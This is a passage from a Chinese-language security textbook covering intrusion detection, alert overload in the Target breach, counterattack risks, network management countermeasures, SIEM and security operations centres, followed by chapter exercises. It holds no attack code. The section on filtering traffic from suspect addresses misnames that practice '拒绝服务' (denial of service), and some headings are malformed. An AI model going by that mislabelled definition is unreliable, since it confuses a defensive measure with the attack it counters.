不幸的是，发出警报要求人工必须随时可用以响应警报，且响应必须及时且得当。如果多个传感器同时产生警报，人工可能会超负荷，错过新警报，或过度卷入处理某一警报，导致第二个警报未能得到足够快的处理。更糟的是，第二个警报可能会分散或混淆人工的注意力，从而危及对第一个警报的处理。在侧边栏 6-25 中，我们将讨论过多警报如何导致严重失陷。

---

##### 侧边栏 6-25：Target 公司因警报过多而不堪重负

2013 年底，现已证实为俄罗斯黑客渗透了美国大型零售商 Target 的网络。攻击者植入代码以收集购物者的信用卡和借记卡号，包括会使这些号码在黑市上极具价值的验证号。总共在圣诞节前几周（通常是零售商一年中最繁忙的购物期）窃取了 4000 万个号码。

Target 投资了入侵检测技术，该技术正常运行并注意到了可疑活动。软件通知了 Target 的安全监控中心，该中心分析了情况，并于 11 月 30 日和 12 月 2 日再次向公司的安全运营中心发出警报。安全运营中心的员工未采取任何行动。

> “像任何大公司一样，Target 每周都会发生大量技术事件并被记录在案。通过我们的调查，我们了解到这些犯罪分子进入我们网络后，他们少量的活动被记录并呈报给了我们的团队，”Target 发言人 Molly Snyder 通过电子邮件表示。“该活动已被评估并采取了行动。” [SCH14]

收到的威胁被归类为 `malware.binary`，意指类型、来源或能力未知的未识别恶意代码片段。一些专家表示，他们预计 Target 安全团队每天会收到数百个此类威胁警报。

这个故事指出了使用 IDS 技术的困难：除非有人根据产生的警报采取行动，否则发出警告就没有价值。但有时警报数量太大，导致响应团队不堪重负。警报过多会使响应人员变得麻痹大意，因为之前的警报调查结果为空，而忽视严重情况。

---

###### 自适应行为

由于人工存在这些局限性，IDS 有时可以配置为采取行动以阻止攻击或减轻其影响。以下是 IDS 可以采取的一些行动类型：

*   **继续监控** 网络。
*   **阻止攻击**，方法是将攻击流量重定向到监控主机、丢弃流量或终止会话。
*   **重新配置网络**，通过上线其他主机（以增加容量）或调整负载均衡器。
*   **调整性能** 以减缓攻击，例如丢弃部分传入流量。
*   **拒绝访问** 特定网络主机或服务。
*   **关闭** 部分网络。
*   **关闭** 整个网络。

###### 反击

在检测到攻击时可以采取的最后一个行动是发起进攻，进行还击。侧边栏 6-26 描述了此类攻击的一个示例。出于几个原因，进攻性行动必须极其谨慎地采取：

*   表面上的攻击者可能不是真正的攻击者。确定互联网流量的真实来源和发送者并非万无一失。针对错误方采取行动只会让事情变得更糟。
*   反击可能导致实时对抗，双方的防御和进攻都必须在几乎没有时间评估形势的情况下实施。
*   愤怒下的报复不一定经过深思熟虑。
*   合法性可能发生变化。采取适度、必要的行动保护自身资源是一项确立已久的法律原则。采取进攻性行动会使自身面临法律风险，这与攻击者相当。
*   挑衅攻击者可能导致升级。攻击者可能将反击视为一种挑战。

---

##### 侧边栏 6-26：反-反-对抗措施？

WikiLeaks 成立于 2006 年 12 月，是一项通过在其网站发布数据来公开泄露的敏感数据的服务。2010 年 11 月 22 日，它宣布将于 11 月 28 日开始泄露大量美国内部外交电报。11 月 28 日，它宣布其网站正遭受严重的拒绝服务攻击，甚至在首批外交电报发布之前，但 WikiLeaks 继续发布电报。

一些未知人员，推测因 WikiLeaks 发布这些电报而破坏安全而愤怒，显然对 WikiLeaks 发起了拒绝服务攻击。攻击严重到迫使 WikiLeaks 的托管提供商、在线书商 [Amazon.com](http://Amazon.com) 的一个部门 Amazon Web Services，于 12 月 2 日取消了与 WikiLeaks 的合同，迫使该网站寻找新的提供商。接下来，未知人员对服务 WikiLeaks 的 DNS 提供商 EveryDNS 发起了拒绝服务攻击。WikiLeaks 转而使用一家瑞士托管提供商，采用由 14 个不同的 DNS 提供商和 350 多个镜像站点支持的网络架构 [BRA10]。因此，反 WikiLeaks 势力及其拒绝服务攻击迫使 WikiLeaks 突然转移内容并安排托管合同。

同时，反-反-WikiLeaks 势力采取了行动。一个名为 Anonymous 的无领导团体于 2010 年 12 月 8 日发起了一系列自己的拒绝服务攻击，称为“报复行动”。目标包括：MasterCard，它曾接受捐款转交 WikiLeaks 但已停止该做法；Amazon，取消 WikiLeaks 服务的网络托管公司；PayPal，也已停止接受 WikiLeaks 的付款；以及其他较小的目标。Anonymous 涉及约 1500 名活动家黑客，他们在在线论坛和聊天室中组织。该攻击使 MasterCard 的在线服务瘫痪了约六小时。

电子前哨基金会（EFF）联合创始人、哈佛大学伯克曼互联网与社会中心研究员 John Perry Barlow 在推特上发文：“第一场严肃的信息战现已打响。战场是 WikiLeaks。你们是部队。”

---

#### 入侵检测系统的目标

两种入侵检测风格——模式匹配和启发式——代表了不同的方法，各有优缺点。实际的 IDS 产品通常会混合使用这两种方法。

理想情况下，入侵检测系统（IDS）应当快速、简单且准确，同时还要完备。它应该能以可忽略不计的性能损耗检测出所有攻击。IDS 可以采用以下部分或全部设计方法：

- 基于数据包头部进行过滤。
- 基于数据包内容进行过滤。
- 维护连接状态。
- 使用复杂的、多包签名。
- 以最少数量的签名达到最大效果。
- 实时在线过滤。
- 隐藏其存在。
- 使用最优滑动时间窗口大小以匹配签名。

##### 隐身模式

IDS 是一种网络设备（或者，在基于主机的 IDS 情况下，是运行在网络设备上的程序）。任何网络设备都可能容易受到网络攻击。如果 IDS 被拒绝服务攻击淹没，它还有什么用？如果攻击者成功登录到了受保护网络内的某个系统，禁用 IDS 会不会成为其下一步行动？

为了应对这些问题，大多数 IDS 运行在**隐身模式**下，即 IDS 拥有两个网络接口：一个用于其监控的网络（或网段），另一个用于生成告警，并可能执行其他管理需求。IDS 将被监控接口仅用作输入；它绝不通过该接口发送数据包。通常，该接口会被配置为设备在被监控接口上没有发布地址；也就是说，没有路由器能直接将任何东西路由到该地址，因为路由器根本不知道存在此类设备。这是完美的被动窃听。如果 IDS 需要生成告警，它仅使用完全独立的控制网络上的告警接口。这种架构如图 6-66 所示。


**图 6-66** IDS 控制网络

---

**隐身模式 IDS 可防止攻击者知晓告警已被触发。**

---

##### 准确的态势评估

入侵检测系统并不完美，错误是它们最大的问题。虽然 IDS 大多数时候可能正确检测到入侵者，但它可能以两种不同方式失误：对并非真正攻击的事情触发告警（称为误报，或统计学界的 I 类错误），或对真实攻击未触发告警（漏报，或 II 类错误）。过多的误报，如 Target 数据泄露事件那样，会导致管理员对 IDS 的警告失去信心，进而可能导致真实告警被忽视。但漏报意味着真实攻击在未采取行动的情况下绕过了 IDS。我们说误报和漏报的程度代表了系统的灵敏度。大多数 IDS 实现允许管理员调整系统的灵敏度，以在误报和漏报之间取得可接受的平衡。

##### IDS 的优势与局限

入侵检测系统是不断演进的产品。研究始于 20 世纪 80 年代中期，商业产品在 20 世纪 90 年代中期问世。然而，随着新研究影响产品设计，该领域仍在持续变化。

在积极方面，IDS 能检测出数量不断增长的严重问题。随着我们对问题了解加深，可以将其签名添加到 IDS 模型中。因此，随着时间的推移，IDS 持续改进。同时，它们变得更便宜、更易于管理。

在消极方面，绕过 IDS 是成功攻击者的高优先级目标。一个防护不善的 IDS 毫无用处。幸运的是，隐身模式 IDS 甚至难以在内部网络中被发现，更别提被攻破了。

IDS 寻找已知弱点，无论是通过已知攻击的模式还是正常行为的模型。相似的 IDS 可能具有相同的漏洞，且它们的选择标准可能遗漏相似的攻击。了解如何规避特定型号的 IDS 是攻击者社区内传递的重要情报。当然，一旦厂商意识到其产品存在缺陷，就会尝试修复。幸运的是，商业 IDS 在识别攻击方面表现相当出色。

另一个 IDS 局限是其灵敏度，这很难度量和调整。IDS 永远不会完美，因此找到适当的平衡至关重要。

最后一个局限不在于 IDS 本身，而在于其使用。IDS 不会自行运行；必须有人监控其记录并响应其告警。管理员购买并安装 IDS 后却置之不理，这是愚蠢的。

总的来说，IDS 是网络安全的极佳补充。防火墙阻止针对特定端口或地址的流量；它们还约束某些协议以限制其影响。但根据定义，防火墙必须允许某些流量进入受保护区域。监视这些流量在受保护区域内实际做什么，是 IDS 的职责，它能很好地完成这项工作。

## 6.9 网络管理

接下来，我们介绍一些管理、维护和调优网络的安全相关概念。管理员可以采取行动，优先处理某一网络流量而非另一流量，要么为了促进资源的公平使用，要么为了阻断恶意流量，使非恶意通信得以通过。要进行这种调优，管理员需要网络状态的准确图景。被称为安全信息与事件管理设备的工具从一系列产品（包括防火墙、IDS、路由器、负载均衡器）收集状态指示，并将这些独立的数据流整合为统一视图。

### 确保服务的管理

网络不是“设置后即不管”类型的系统；因为网络活动是动态的，管理员需要监控网络性能并根据需要调整特性。

在本节中，我们列出网络所需的一些管理类型。但请认识到，这些信息大多对主要职责为保持网络平稳运行的网络管理员有用，而非用于防御拒绝服务攻击。这些措施应对的是常见的性能不佳情况，而非蓄谋已久的攻击。本节仅提及这些主题；详情请参阅综合性的网络管理参考资料。

#### 容量规划

导致拒绝服务的一个良性原因是容量不足：数据过多而处理能力过少。容量规划通常不被视为安全问题，它涉及监控网络流量负载和性能，以确定何时升级哪些方面。

在接近或达到容量上限运行的网络或组件几乎没有容错余地，这意味着正常的轻微流量激增就可能使网络超负荷，导致服务显著下降。


网站特别容易受到意外容量问题的影响。新闻网站在正常时期运行良好，直到发生重大事件，如名人去世、地震、空难或恐怖袭击，随后许多人想要获取事件的最新细节。发布新产品并配合广告宣传也可能导致过载；热门演唱会或体育赛事门票开售等事件曾使网站瘫痪。

网络管理员需要了解这些可能导致意外需求激增的情况。

### 负载均衡

Google、Microsoft 和*纽约时报*等热门网站并非运行在单台计算机上；没有任何单台计算机有能力同时支撑这些网站接收的所有流量。相反，这些机构依靠许多计算机来处理流量。

公众并不知晓这些多台服务器的存在；例如，当使用 URL [www.nytimes.com](http://www.nytimes.com) 时，它可能会变成 `server1.nytimes.com` 或 `www3.nytimes.com`。事实上，在用户对网站的连续访问中，其活动可能由不同的服务器处理。**负载均衡器**是一种设备，它将流量重定向到不同的服务器，同时致力于确保所有服务器的工作负载大致相当。

***

**网络负载均衡将传入流量引导至具有可用容量的资源。**

***

#### 网络调优

同样，网络工程师可以调整单个网段上的流量。如果同一网段上的两个客户端产生了大部分流量，最好将它们放置在不同的网段上，以均衡流量负载。工程师可以安装新链路、重构网段或升级连接，以确保良好的网络性能。网络调优依赖于通过长期监控网络流量获得的可靠数据。

在实际攻击中，网络管理员可以调整分配给各网段的带宽，并监控传入流量，有选择地丢弃那些看似恶意的数据包。（注：过度丢弃数据包风险很小；`TCP` 协议能检测丢失的数据包并寻求重传，而 `UDP` 协议不保证交付。在抵御拒绝服务攻击时，丢失一小部分合法流量是可以接受的代价。）

**速率限制**是一种减轻攻击影响的对策。通过速率限制，允许发往特定地址的流量量会被减少。路由器可以向转发流量的另一个路由器发送静止信号；这种信号告知发送方路由器，接收方路由器已过载且无法跟上处理速度，因此请求发送方暂停传输数据。只要攻击来自单一源头，静止信号就可以在网络中一路传回攻击源头。

#### 网络寻址

互联网（IPv4）寻址固有的一个问题是，任何数据包都可以声称来自任何地址：位于地址 A 的系统可以发送一个显示地址 B 为其源地址的数据包。这一说法需要进一步阐述，因为地址欺骗并非仅仅是在网页表单上填空那么简单。大多数用户通过高层应用程序（如浏览器和邮件处理程序）与互联网交互，这些应用程序构建通信流并将其传递给协议处理程序（如 `bind` 和 `socks`）。协议处理程序执行网络交互，在通信流中提供准确的数据。因此，只有覆盖这些协议处理程序才能欺骗地址，这需要操作系统中的特权。黑客工具可以实现这种交互，研究人员 Beverly 和 Bauer [BEV05] 报告了一项实验，他们在其中欺骗了来自四分之一互联网地址的传输。

互联网服务提供商（ISP）可以做更多工作来确保数据包中地址的有效性。提供商可以（尽管有难度）区分来自其自身客户的流量——提供商应该知道并能够验证其客户的地址块——和来自外部的流量。拥有可靠的源地址将限制某些拒绝服务攻击，但互联网协议设计不包含支持地址真实性的机制。

#### 拒绝服务

有了可靠的源地址，网络管理员可以设置边缘路由器丢弃参与拒绝服务攻击的数据包。这种做法称为**拒绝服务**，本质上是过滤掉所有来自可疑地址的流量。检测到攻击的实时监控确定攻击来源地址，并迅速采取行动封锁这些地址。防火墙可以实施对特定地址的拒绝服务。

然而，拒绝服务也有缺点。如果攻击者能检测到某站点实施了拒绝服务，攻击者就可以发送欺骗性攻击流量，使其看起来像来自合法源头。也就是说，攻击者可能使攻击看起来像源自 [google.com](http://google.com) 或 [facebook.com](http://facebook.com) 等；拒绝这种表面上的攻击会导致拒绝来自 Google 或 Facebook 的合法流量这一负面后果。

#### 黑名单和黑洞路由

在极端情况下，网络管理员可能决定有效地将目标系统断开连接。管理员可以将目标地址加入**黑名单**，这意味着无论来自合法还是恶意源头，没有任何流量会发往该地址。或者，管理员可以将流量重定向到一个有效地址，在那里对传入流量进行分析；这个过程称为**黑洞路由**。

***

**拒绝服务和黑洞路由是极端的网络对策，阻断所有来自或发往特定地址的流量。**

***

这两种对策都可以在网络边缘应用，在过载流量被允许淹没内部子网之前生效。否则，过多的流量可能会淹没整个内部子网，从而拒绝或降低子网上所有主机的服务，而不仅仅是作为攻击目标的那台主机。

所有这些管理措施都带有潜在风险。网络监控会影响网络性能，因为拦截、分析和转发流量需要时间，因此会带来延迟。在正常操作中延迟很小，但在攻击发生时，这种影响良性和恶意流量的延迟会进一步拖慢一个已处于压力下的系统。此外，良好的管理需要详细分析，例如，不仅要看到流量是 `SYN` 数据包，还要看到该 `SYN` 数据包来自地址 `a.b.c.d`，而该地址正是最近发起 250 个 `SYN` 数据包的同一地址。识别 `SYN` 数据包可以瞬间完成；识别地址 `a.b.c.d` 涉及 250 次之前的攻击则需要对保留的历史数据进行分析。更精确的检查能产生更有用的信息，但也需要更多的检查时间。

防火墙、路由器、交换机和负载均衡器等网络设备通常提供数据供人员分析和管理网络。过多的信息可能会淹没人工网络管理员，尤其是安全技能有限的人员。因此，管理对策更适合那些规模大或重要到足以拥有经验丰富的安全团队和充足资源的网络。

对于所有网络，无论是否有能力强的安全团队，监控和检测拒绝服务攻击的部分负担都可以由软件来处理。在下一节中，我们将描述入侵检测和防御系统，这些计算机设备执行那种监控。

### 安全信息与事件管理 (SIEM)

在本章中，我们讨论了网络和安全产品，包括路由器、交换机、VPN 以及多种防火墙、IDS 和 IPS。大型企业可能拥有数百甚至数千个此类产品，通常品牌和型号各异，以及数万台服务器和工作站，所有这些都需要安全人员进行监控。在本节中，我们将讨论那些使小型安全团队能够监控并响应整个企业范围内安全问题的工具。

#### 安全运营中心

##### SIEM：安全信息与事件管理

###### 示例场景：SiC Groceries

举个例子，让我们想象一家名为 SiC Groceries 的零售连锁超市，总部位于纽约市，在美国各地拥有 1,000 家门店。SiC 的所有门店都需要与总部保持网络通信，以协调门店库存、销售、员工及其他物流问题，因此每家门店都需要一个互联网连接以及一个通往总部的**始终在线的 VPN 连接**。零售门店的互联网连接本质上与你从本地 ISP 获得的连接相同，和其他连接一样容易遭受攻击。更糟糕的是，攻破零售门店网络的攻击者将通过 VPN 获得对企业总部的内部访问权限。这意味着连锁店中的每一家门店都是攻入主要企业网络的潜在**攻击向量**，必须按此标准受到保护。SiC Groceries 不再仅需要一台防火墙和一套 IDS 来保护企业互联网连接，而是需要 1,000 台防火墙和 IDS 来保护 1,000 个互联网连接。

但谁来监控这些防火墙和 IDS，确保它们正常工作、响应警报并调查零售门店可能发生的安全事件？在每家门店配备安保人员显然不划算，因为这类专业知识成本高昂，而每家门店极少会遇到需要人工干预的安全问题。

相反，SiC Groceries 将在单一地点（可能是其总部）建立一个**安全运营中心（SOC）**。SOC 是一个专门负责监控网络安全事件，并调查和修复这些事件的安全人员团队。

为了使 SOC 高效运作，SiC Groceries 必须允许 SOC 团队远程访问并监控整个企业中所有的网络和安全产品，包括所有门店的设备。安全人员可以手动登录每台设备检查状态和查找警报，但这种方式无法扩展，且难以识别即使是简单的攻击模式，例如源自同一源地址的针对多家门店的攻击。相反，SiC 需要一种自动化辅助工具来增强安全团队的能力，这正是**安全信息与事件管理（SIEM）**工具大显身手的地方。SIEM 是一种软件系统，它从各种硬件和软件产品中收集与安全相关的数据，以创建统一的安全仪表盘（如图 6-67 所示）供 SOC 人员使用。


**图 6-67** SIEM 仪表盘

#### 数据收集

现代安全产品、网络设备和操作系统通常将与安全相关的数据报告给基于文本的日志文件。例如，当用户尝试登录 Windows 时输入了错误密码，Windows 可以将“登录失败”事件写入其安全日志。除了登录事件，操作系统通常还能记录用户管理事件（例如添加用户或修改用户权限）以及文件或应用程序访问记录。基于主机和基于网络的安全工具可能会报告恶意软件扫描结果、检测到的入侵尝试和被阻止的连接。SIEM 可以定期收集整个企业中的此类日志文件，每隔几秒就向 SOC 人员更新公司的安全状态。

但 SIEM 不仅仅是收集信息；它们还能做很多工作来帮助 SOC 分析师理解这些信息。将所有安全事件数据集中在一个地方后，分析师可以跨企业、跨越数月甚至数年的时间范围寻找模式。许多 SIEM 允许分析师以无数种有趣的方式组织数据。例如，SOC 分析师可能会注意到半夜登录事件激增并希望进行调查。SIEM 将允许分析师搜索例如美国东部时间凌晨 1:00–4:00 之间的所有登录事件，然后根据其他因素继续调查，如 IP 地址、明显的来源国家、目标系统或目标用户名。能够运行此类搜索并快速调查针对公司所有系统的直觉判断，是近实时安全分析的根本性突破。

这些搜索功能使其具备了类似 IDS 的基于特征的检测能力。大多数 SIEM 允许用户创建并共享设定为定期运行的搜索，并根据结果生成响应。例如，分析师可能会创建一条规则，查找在任意五分钟时间范围内针对单个主机的三次登录失败尝试。如果该规则发现任何此类行为，分析师可以设置其在屏幕上警报、发送邮件通知他/她，甚至运行自定义脚本。这不是 IDS 能力的替代品，而是**补充**：SIEM 可以针对企业中各种日志源匹配更复杂的规则，但其规则匹配速度相比 IDS 较慢，且不适合分析网络流量。

除了整理日志数据并使其可搜索外，大多数 SIEM 还具有支持 SOC 分析师工作流的功能。SIEM 中一项常见功能是允许分析师“认领”事件进行调查，为 SOC 团队提供了一种直接的工作分配方式。这些 SIEM 随后允许分析师用调查笔记标注事件，并将事件放入队列以供进一步分析，或关闭调查。

###### SIEM 挑战

尽管 SIEM 已演变为任何大型企业必不可少的安全工具，但它们是难以部署、维护和使用的复杂系统。以下是选择 SIEM 时需要考虑的一些问题：

* **成本**。大型公司的商业 SIEM 解决方案可能高达数百万美元，但一些开源 SIEM 是免费的。组织的规模、系统复杂性、功能和性能需求以及对定制开发的接受度，都应有助于其选择 SIEM。虽然乍一看，为现成软件产品支付数百万美元似乎过高，但其采购取决于组织的需求。如果公司需要创建自定义功能并支付专家支持、维护和培训费用，免费的开源解决方案最终可能比受支持的商业产品成本更高。

* **数据可移植性**。需求会演变，满足当前需求的 SIEM 总有一天需要更换。在选择 SIEM 之前，请确保你有办法以大多数其他 SIEM 可读的标准格式导出保存的数据。存储在 SIEM 中的知识（如保存的搜索或数据可视化）往往具有 SIEM 专用性，当你切换产品时，很可能需要重建这些知识库。

* **日志源兼容性**。 SIEM 在可导入的数据类型以及允许用户定义新数据类型的便利性方面变得越来越灵活，但在这方面有些 SIEM 比其他的更好。根据数据类型和生成特定日志集的系统，SIEM 可能要求你安装代理或中间服务器来收集日志。一旦你知道哪些日志对你很重要，你就可以确定哪些 SIEM 已经能读取那些数据日志，哪些只需少量配置即可读取，哪些则需要代理。

* **部署复杂性**。因为 SIEM 可能涉及企业中的数千个系统，部署它们通常是一项复杂的任务。部署可能需要各种配置更改（例如，更新系统审核策略，配置设备将日志发送到新 IP），其中一些将是你环境复杂性带来的不可预测的副作用。对于拥有 1,000 多个系统的企业，全面部署可能需要数月时间，并需要跨多个团队进行协调。

#### SIEM 考量因素

*   **定制化**。SIEM 厂商在内置功能深度和定制化便利性上展开竞争。部分 SIEM 产品开箱即用，提供广泛的用户界面并支持多种主要数据源；另一些仅提供基础功能，但易于通过脚本进行定制。无论选择哪种类型的 SIEM，都务必了解：所需功能中有多少是内置或易于获取的，又有多少需要自行开发。

*   **数据存储**。SIEM 通常需要海量存储空间，但具体容量因系统架构和监控活动而异。记录 IDS 警报的日志文件相对稀疏，而全包捕获每秒可产生 GB 级新数据。SIEM 常管理 100 TB 或更多数据。

*   **隔离与访问控制**。尽管这是一项重要的安全能力，但 SIEM 也带来巨大风险。将所有关键安全数据集中在一个系统中，意味着高度信任该系统的用户和管理员。正如罗马诗人尤维纳利斯所言：“谁来监视监视者？”SIEM 通常具备强大的隔离和基于角色的访问控制（RBAC）能力，允许管理员限制用户对数据和功能的访问，但缓解安全人员带来的内部威胁始终是一个持续的挑战。

*   **全职维护**。因需与众多不同系统交互，SIEM 天生复杂，部署、维护和定制均属专家级技能。大型组织应准备至少投入一名全职人员专门负责此类任务。

*   **用户培训**。SOC 分析师通常受过事件检测、调查和响应训练，但可能不熟悉贵组织部署的特定工具。应安排每位用户花费约一周时间培训以学习使用 SIEM，并预期在将旧习惯和工作流迁移至新系统的学习期间，生产力会暂时下降。

SOC 的职能类似于空中交通管制中心或核反应堆控制室：大量数据从多源汇聚。控制人员须凭借经验和直觉确保系统正常运行，任何有助于组织和消化数据的技术手段都能提升人员效能。系统正常运行时，监控多为被动式；但一旦出现异常，控制人员需要充足的背景数据来判明事态并决定后续行动。我们将在第 10 章探讨这一主动系统管理角色，即事件响应。

### 6.10 结论

本章详述了网络通信与安全的诸多细节。部分内容在新语境下拓展了既有主题（如截获与篡改），部分则涉及前所未探领域（如分布式拒绝服务）。我们考察了技术层面（WiFi 通信与安全协议、DNS、防火墙、入侵检测设备）以及策略与实践层面（网络管理）。网络安全在计算机安全大领域中至关重要，但建立在我们已确立的诸多基石之上（加密、标识认证、访问控制、弹性设计、最小权限、信任、威胁建模）。因此，虽本章引入新术语和概念，大部分内容仍可视为对已有知识的合理延伸与拓展。

正如第 1 章所阐述，第 2 章至第 6 章的主题编排刻意由贴近用户端（程序）向最远端（网络）推进。下一章我们将更进一步，审视数据及其收集、聚合与分析。网络连接中用户尚能控制一端；而数据一旦交出，用户几乎无感知地失去控制，难以掌控其被谁、何时、如何使用。

### 6.11 习题

**1.** 本章将发送方与接收方间的序列号描述为保护通信流免受替换与重放攻击的手段。请描述一种攻击者尽管存在序列号仍能实施替换或重放的情形。此攻击对哪种序列编号方式有效——单一通用序列号流，还是每对通信方各自独立的序列号流？

**2.** 汽油发动机是否存在单点故障？机动消防车呢？消防部门呢？后两者如何补偿前者的单点故障？请说明理由。

**3.** 电信网络提供商与用户关注“最后一英里”的单点故障——即从提供商最后一级交换站到用户端的单根线缆。用户如何防范该单点故障？评论你的方案在成本效益上的权衡。

**4.** 你正设计一项托管公司网站的业务。能预见哪些单点故障？列出涉及的资源。说明消除各资源单点故障的方法。

**5.** 人体展现卓越韧性。请举出三个身体补偿单一器官/部位失效的例子。

**6.** 硬件如何设计以实现容错？这些方法适用于软件吗？为什么？

**7.** 早期人工电话“交换机”虽古雅但极慢。用户示意接线员欲与 Jill 通话，接线员知 Jill 在 Sally 处，便接通那里。除缓慢/低效外，此方案还有哪两个缺点？

**8.** 模拟电话采用“电路交换”，系统选定发送方到接收方的线路路径，该电路专属于该通话直至结束。电路交换有哪两个缺点？

**9.** OSI 模型被认为低效：各层须接收上层工作、添加处理结果、传递给下层。此过程如同礼物置于七层嵌套盒中，每层均包裹密封。这种封装（与解封）必然低效（佐证：实现互联网的协议 TCP、UDP、IP 仅用四层架构）。请引用本书前几章内容，指出分层方法的一个安全优势。

**10.** 物理层必处于 OSI 栈底，应用层居顶，这显而易见。请论证其余五层按低到高抽象级排序的合理性。

**11.** 列出 OSI 协议栈各层面对的主要安全问题。

**12.** 数据包包含源 NIC 地址而非仅含目的 NIC 地址，能带来什么安全优势？

**13.** TCP 是健壮协议：保证排序与纠错，但有开销代价（如无需重排序或纠错时）。UDP 不提供这些服务，却更简洁。请列举轻量级 UDP 协议可接受的具体场景，即不需要纠错或排序的情况。

**14.** 假设不存在 FTP 协议。你被要求定义一个类似 FTP PUT 的文件交换功能。请列出你会在协议中包含的三项安全特性或机制。

#### 15. IP 寻址与安全

32 位 IP 寻址方案提供约 40 亿个地址。将该数字与世界人口相比。每增加一位，潜在地址数量翻倍。虽然 32 位正变得太小，但 128 位似乎过大，即使考虑到显著增长。但并非所有位都必须用于指定地址。请列举地址中几个位的安全用途。

#### 16. 域名创建与安全攻击

创建新域（例如 `yourdomain.com`）时，`.com` 域中的表必须接收 `yourdomain` 的条目。在创建 `yourdomain.com` 期间，有人可能会尝试对 `.com` 的注册机构（`.com` 表的管理员）发起什么安全攻击？

#### 17. 端口扫描器的非恶意用途

端口扫描器是攻击者识别潜在受害者系统中可能漏洞的有用工具。请列举非攻击者为非恶意目的使用端口扫描器的情况。

#### 18. 缺乏多样性的安全风险


# 安全社区的一个论点是缺乏多样性本身就是一种漏洞

例如，两款主流浏览器 `Mozilla Firefox` 和 `Microsoft Internet Explorer` 被约 95% 的互联网用户使用。这种市场控制引入了什么安全风险？假设有三款浏览器（每款都占有显著市场份额）。三款能否消除该安全风险？如果不能，四款呢？五款？请解释你的答案。

## 19. 传输介质抗窃听能力比较

比较铜线、微波、光纤、红外和（射频）无线在抵抗被动和主动窃听方面的能力。

## 20. 洋葱路由器的源目隐藏机制

解释为什么洋葱路由器能防止任何中间节点知晓通信的真实源和目的地。

## 21. 洋葱路由中间节点数量的充分性

洋葱路由依赖中间节点。仅有一个中间节点是否足够？请证明你的答案。

## 22. 恶意中间节点对洋葱路由隐私的影响

假设洋葱路由的中间节点是恶意的，暴露了其转发通信的源和目的地。显然，这种泄露会破坏洋葱路由设计的保密性。如果恶意节点是中间两个节点之一，会暴露什么？如果是三个节点之一，会丢失什么？从恶意节点分别处于第一、第二、第三位置的角度解释你的答案。需要多少非恶意节点来保护隐私？

## 23. 模式匹配中的同义词问题

模式匹配的一个问题是同义词。如果当前目录是 `bin`，`.` 表示当前目录，`..` 表示其父目录，则 `bin`、`../bin`、`../bin/.`、`.././bin/../bin` 都表示同一目录。如果你试图在命令脚本中阻止访问 `bin` 目录，需要考虑所有这些变体（以及无限多更多变体）。请列举模式匹配算法应对同义词的方法。

## 24. HTTP 状态保持

HTTP 协议按定义是无状态的，意味着它没有机制“记住”从一次交互到下一次交互的数据。

(a) 建议一种在两次 HTTP 调用之间保持状态的方法。例如，你可能发送给用户一页匹配用户查询的书籍和价格，并希望避免在用户选择一本购买后再次查找每本书的价格。

(b) 建议一种在间隔数天的两次 Web 访问之间保持某种状态概念的方法。例如，用户可能更喜欢以欧元而非美元报价，你希望下次无需询问用户即可按首选货币显示价格。

## 25. 区分容量不足与 DoS 攻击

网站如何区分容量不足和拒绝服务攻击？例如，网站在热门体育赛事电视转播期间播放显示站点 URL 的广告后，往往会经历流量巨大增长。该使用高峰是正常访问恰好同时发生的结果。网站如何确定何时高流量是合理的？

## 26. SYN Flood 与良性协议交换不完整

SYN Flood 是某些不完整协议交换的结果：客户端发起交换但不完成它。不幸的是，这些情况也可能正常发生。描述一个可能导致协议交换不完整的良性情况。

## 27. 僵尸网络检测

分布式拒绝服务攻击需要在众多机器上运行的僵尸程序同时执行部分攻击。如果你是寻找网络中僵尸程序的系统管理员，你会寻找什么？

## 28. 移动代码签名方案

移动代码签名是解决敌意代码漏洞的建议方法。概述代码签名方案必须做什么。

## 29. Applet 文件系统访问控制

系统必须控制 Applet 对敏感系统资源的访问，如文件系统、处理器、网络和内部状态变量。但“文件系统”一词非常宽泛，有用的 Applet 通常需要一些持久存储。建议可对文件系统访问施加的控制。你的答案必须比“允许所有读取”或“禁止所有写入”更具体。你的答案应本质上区分什么是“安全关键”与非关键，或“有害”与无害。

## 30. 无线网络入侵防范理由

假设你有高容量网络连接接入家中，也有无线网络接入点。还假设你未使用网络连接的全部容量。列出三个理由，说明你为何仍想阻止外部人员通过入侵你的无线网络获得免费网络访问。

## 31. 网络分段设计建议

为什么推荐网络设计采用分段？即，为何为 Web 服务器、后台办公处理、新代码测试和系统管理分别设置独立网段更好？

## 32. 负载均衡器的安全优势

对于大型应用，一些网站使用负载均衡器将流量均匀分配给多个等效服务器。例如，搜索引擎可能拥有海量内容和 URL 数据库，以及多个前端处理器，它们构思发送给数据库管理器的查询并格式化结果显示给询问的客户端。负载均衡器将每个传入的客户端请求分配给最不繁忙的前端处理器。使用负载均衡器有什么安全优势？

## 33. 链路加密与端到端加密的组合使用

链路加密和端到端加密能否用于同一通信？这样做有什么优势？列举同时使用这两种加密形式可能合乎需要的情况。

## 34. VPN 加密类型

VPN 使用链路加密还是端到端加密？请证明你的答案。

## 35. 防火墙实现 VPN 的优势

为什么防火墙是实现 VPN 的好位置？为什么不在被访问的实际服务器上实现它？

## 36. VPN 加密算法类型

VPN 使用对称加密还是非对称加密？解释你的答案。

## 37. IPsec 数据包字段的安全目的

IPsec 数据包中序列号等字段的安全目的是什么？

## 38. 手动质询-响应与专用设备的权衡

讨论手动质询-响应系统（用户手工或心算计算响应）与使用专用设备（如计算器）的系统之间的权衡。

## 39. 同步密码令牌的时钟漂移补偿

同步密码令牌必须与接收器以相同节奏运行。即，令牌必须在接收器前进时同时前进到下一个随机数。由于时钟不精确，两个单元不会始终完美同步；例如，令牌时钟可能比接收器慢 1 秒/天。随着时间的推移，累积差异可能显著。建议一种接收器检测并补偿令牌时钟漂移的方法。

## 40. 路由器 ACL 的优势与阻断场景

路由器上的 ACL 会降低大量使用的系统资源的吞吐量。列出使用 ACL 的两个优势。列出一种你可能想通过路由器上的 ACL 阻止（拒绝）特定流量的情况；即性能损失不会成为决定性因素的情况。

## 41. 有状态检测防火墙的多包检查

有状态检测防火墙可能想从多个数据包中检查什么信息？

## 习题 42-54

### 42. 状态检测防火墙与乱序数据包

回顾一下，数据包的重排序和重组发生在 TCP/IP 协议栈的传输层。防火墙将在较低层运行，即网际层或数据链路层。当流可能乱序或损坏时，状态检测防火墙如何确定关于流量流的任何信息？

### 43. 防火墙规则的对称性

防火墙规则必须是对称的吗？也就是说，防火墙是否必须同时阻止特定流量类型的入站（通往受保护站点）和出站（来自站点）流量？为什么或为什么不？

### 44. 难以代理的协议

